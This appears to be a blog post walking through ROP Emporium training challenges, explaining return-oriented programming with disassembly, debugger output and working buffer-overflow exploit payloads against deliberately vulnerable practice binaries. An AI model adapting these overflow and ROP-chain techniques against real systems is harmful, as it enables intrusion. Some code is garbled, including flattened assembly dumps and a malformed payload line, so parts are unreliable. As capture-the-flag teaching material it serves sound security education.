 ```yaml
---
layout: post
title: Return Oriented Programming
---
```


## Notes
- This article assumes you are familiar with Assembly and basic concepts in reverse enginering and binary analysis.
- To continue learning about ROP, [ROP emporium](https://ropemporium.com/) provides a series of challenges for learning ROP. 

In this article, you fill find solutions and explanations to some of the challenges.


##  Intro
Return-Oriented Programming (ROP) is an advanced memory attack technique that allows an attacker to execute code under various common defenses of modern operating systems, such as non-executable memory and code signing. This type of attack often exploits program loopholes in the operation stack call, usually a buffer overflow. An attacker controls stack calls to hijack program control flow and execute targeted machine language instruction sequences (gadgets). Each gadget usually ends with a return instruction (`ret` , machine code `c3`) and is located in a subroutine in the shared library code. The execution of these instruction sequences, allows an attacker to controll the execution of the program. 

- `ret` instruction is equivalent to `pop eip`. The 4-byte content pointed to by `esp` is first read and assigned to `eip` , and then the `esp` plus 4 bytes points to the next position on the stack. If the currently executing instruction sequence still ends with the `ret` instruction, this process will be repeated, `esp` incremented again and the next instruction sequence is executed.


## Challenges

### ret2win32
Under normal circumstances, for a program with buffer overflow, we usually enter a certain number of characters to fill the buffer, 
and then construct an ROP chain by overwriting the return address saved on the stack. I will go through some more details in the first challenge as these principles are common denominators when thinking about subsequent challenges.

Let's take a look at the vulnerability function:

```
adrazhi$ disassemble pwnme Dump of assembler code for function pwnme: 0x080485f6 <+0>: push ebp 0x080485f7 <+1>: mov ebp,esp 0x080485f9 <+3>: sub esp,0x28 0x080485fc <+6>: sub esp,0x4 0x080485ff <+9>: push 0x20 0x08048601 <+11>: push 0x0 0x08048603 <+13>: lea eax,[ebp-0x28] 0x08048606 <+16>: push eax 0x08048607 <+17>: call 0x8048460 <memset@plt> 0x0804860c <+22>: add esp,0x10 0x0804860f <+25>: sub esp,0xc 0x08048612 <+28>: push 0x804873c 0x08048617 <+33>: call 0x8048420 <puts@plt> 0x0804861c <+38>: add esp,0x10 0x0804861f <+41>: sub esp,0xc 0x08048622 <+44>: push 0x80487bc 0x08048627 <+49>: call 0x8048420 <puts@plt> 0x0804862c <+54>: add esp,0x10 0x0804862f <+57>: sub esp,0xc 0x08048632 <+60>: push 0x8048821 0x08048637 <+65>: call 0x8048400 <printf@plt> 0x0804863c <+70>:
```

The function `pwnme()` is a buffer overflow function. It calls `fgets()` read arbitrary data, but the buffer size is only 40 bytes ( 0x0804864a <+84>: lea eax,[ebp-0x28] , 0x28 = 40), When inputting more than 40 bytes of data, you can overwrite the ebp and return address of the calling function:

```
adrazhi$ pattern_create 50 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
```

The buffers are offset from `ebp` and `eip` by 40 and 44 respectively, which validates the hypothesis.

By looking at the logic of the program, although the function `ret2win()` exists in the `.text` section, it is not called during program execution. All we have to do is to overwrite the return address with the address of the function to make the program jump to In the function, which prints the flag, we call this type of ROP `ret2text`.

```
 adrazhi$ checksec CANARY : disabled FORTIFY : disabled NX : ENABLED PIE : disabled RELRO : Partial 
```

Here, PIE is turned on and off, so the loading address of `.text` is unchanged. You can directly use the address `0x08048659 ret2win()`
The payload is as follows (note the paylaod in this article I will use multiple methods to write to show the use of various tools):

```
adrazhi$ python3 -c "print 'A'*44 + '\x59\x86\x04\x08'" | ./ret2win32 ... > Thank you! Here's your flag:ROP{a_placeholder_32byte_flag!}
```

### ret2win
Let's look at 64-bit program. 

```
adrazhi$ disassemble pwnme Dump of assembler code for function pwnme: 0x00000000004007b5 <+0>: push rbp 0x00000000004007b6 <+1>: mov rbp,rsp 0x00000000004007b9 <+4>: sub rsp,0x20 0x00000000004007bd <+8>: lea rax,[rbp-0x20] 0x00000000004007c1 <+12>: mov edx,0x20 0x00000000004007c6 <+17>: mov esi,0x0 0x00000000004007cb <+22>: mov rdi,rax 0x00000000004007ce <+25>: call 0x400600 <memset@plt> 0x00000000004007d3 <+30>: mov edi,0x4008f8 0x00000000004007d8 <+35>: call 0x4005d0 <puts@plt> 0x00000000004007dd <+40>: mov edi,0x400978 0x00000000004007e2 <+45>: call 0x4005d0 <puts@plt> 0x00000000004007e7 <+50>: mov edi,0x4009dd 0x00000000004007ec <+55>: mov eax,0x0 0x00000000004007f1 <+60>: call 0x4005f0 <printf@plt> 0x00000000004007f6 <+65>: mov rdx,QWORD PTR [rip+0x200873] # 0x601070 <stdin@@GLIBC_2.2.5> 0x00000000004007fd <+72>: lea rax,[rbp-0x20] 0x0000000000400801 <+76>:
```

The first difference from 32-bit is parameter passing. The first six parameters of 64-bit programs are passed through RDI, RSI, RDX, RCX, R8 and R9. So the buffer size parameter is passed to `fgets()` via `rdi`, and the size is 32 bytes.

And because the address of ret does not exist, the program stops at this step => `0x400810 <pwnme+91>: ret` , because the 64-bit usable memory address cannot be greater than `0x00007fffffffffff` , otherwise an exception will be thrown.

```
 adrazhi$ r Starting program: /home/firmy/Desktop/rop_emporium/ret2win/ret2win ret2win by ROP Emporium 64bits For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer; What could possibly go wrong? You there madam, may I have your input please? And don't worry about null bytes, we're using fgets! > AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA Program received signal SIGSEGV, Segmentation fault. [----------------------------------registers-----------------------------------] RAX: 0x7fffffffe400 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb") RBX: 0x0 RCX: 0x1f RDX: 0x7ffff7dd4710 --> 0x0 RSI: 0x7fffffffe400 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb") RDI: 0x7fffffffe401 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb") RBP: 0x6141414541412941 ('A)AAEAAa') RSP: 0x7fffffffe428 ("AA0AAFAAb") RIP: 0x400810 (<pwnme+91>: ret) R8 : 0x0 R9 : 0x7ffff7fb94c0 (0x00007ffff7fb94c0) R10: 0x602260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA\n") R11: 0x246 R12: 0x400650 (<_start>: xor ebp,ebp) R13: 0x7fffffffe510 --> 0x1 R14: 0x0 R15: 0x0 EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow) [-------------------------------------code-------------------------------------] 0x400809 <pwnme+84>: call 0x400620 <fgets@plt> 0x40080e <pwnme+89>: nop 0x40080f <pwnme+90>: leave => 0x400810 <pwnme+91>: ret 0x400811 <ret2win>: push rbp 0x400812 <ret2win+1>: mov rbp,rsp 0x400815 <ret2win+4>: mov edi,0x4009e0 0x40081a <ret2win+9>: mov eax,0x0 [------------------------------------stack-------------------------------------] 0000| 0x7fffffffe428 ("AA0AAFAAb") 0008| 0x7fffffffe430 --> 0x400062 --> 0x1f8000000000000 0016| 0x7fffffffe438 --> 0x7ffff7a41f6a (<__libc_start_main+234>: mov edi,eax) 0024| 0x7fffffffe440 --> 0x0 0032| 0x7fffffffe448 --> 0x7fffffffe518 --> 0x7fffffffe870 ("/home/firmy/Desktop/rop_emporium/ret2win/ret2win") 0040| 0x7fffffffe450 --> 0x100000000 0048| 0x7fffffffe458 --> 0x400746 (<main>: push rbp) 0056| 0x7fffffffe460 --> 0x0 [------------------------------------------------------------------------------] Legend: code, data, rodata, value Stopped reason: SIGSEGV 0x0000000000400810 in pwnme () gdb-peda$ pattern_offset $rbp 7007954260868540737 found at offset: 32 gdb-peda$ pattern_offset AA0AAFAAb AA0AAFAAb found at offset: 40 

```

The address of `re2win()` is `0x0000000000400811` , and the payload is as follows:

```python
 from zio import * payload = "A" * 40 + l64( 0x0000000000400811 ) 
 io = zio('./ret2win') 
 io.writeline(payload) io.read() 
```


### callme32
Here we are going to touch the real plt. According to the question, `callme32` imports three special functions from the shared library `libcallme32.so:s`

```
 adrazhi$ rabin2 -i callme32 | grep callme ordinal=004 plt=0x080485b0 bind=GLOBAL type=FUNC name=callme_three ordinal=005 plt=0x080485c0 bind=GLOBAL type=FUNC name=callme_one ordinal=012 plt=0x08048620 bind=GLOBAL type=FUNC name=callme_two 
```

All we have to do is call `callme_one()` , `callme_two()` and `callme_three()`, and each function must pass parameters 1, 2, 3. Through debugging, we can know the function logic, `callme_one` used to read the encrypted flag, and then call `callme_two` and `callme_three` order to decrypt.

Since the function parameters are placed on the stack, in order to balance the stack, we need a `pop;pop;pop;ret` gadge

```
adrazhi$ objdump -d callme32 | grep -A 3 pop ... 80488a8: 5b pop %ebx 80488a9: 5e pop %esi 80488aa: 5f pop %edi 80488ab: 5d pop %ebp 80488ac: c3 ret 80488ad: 8d 76 00 lea 0x0(%esi),%esi ... 
```
Or add `esp, 8; pop; ret`, anyway, as long as it can be balanced, you can:

```
 adrazhi$ ropsearch "add esp, 8" Searching for ROP gadget: 'add esp, 8' in: binary ranges 0x08048576 : (b'83c4085bc3') add esp,0x8; pop ebx; ret 0x080488c3 : (b'83c4085bc3') add esp,0x8; pop ebx; ret 
```

Constructing the payload: 

```python
 from zio import * payload = "A" * 44 payload += l32(0x080485c0) 
 payload += l32(0x080488a9) 
 payload += l32(0x1 + l32(0x2) + l32(0x3) 
 payload += l32(0x08048620) 
 payload += l32(0x080488a9) 
 payload += l32(0x1) + l32(0x2) + l32(0x3) 
 payload += l32(0x080485b0) 
 payload += l32(0x080488a9) 
 payload += l32(0x1 ) + l32(0x2) + l32(0x3) 
 io = zio( './callme32' ) 
 io.writeline(payload) io.read() 

```


## Conclusion
Will be going through some of the additional challenges. ROP is a cool technique and in case you are interested in diving deeper
[Return-Oriented Programming: Systems, Languages, and Applications](https://hovav.net/ucsd/dist/rop.pdf) can be a useful resource.



















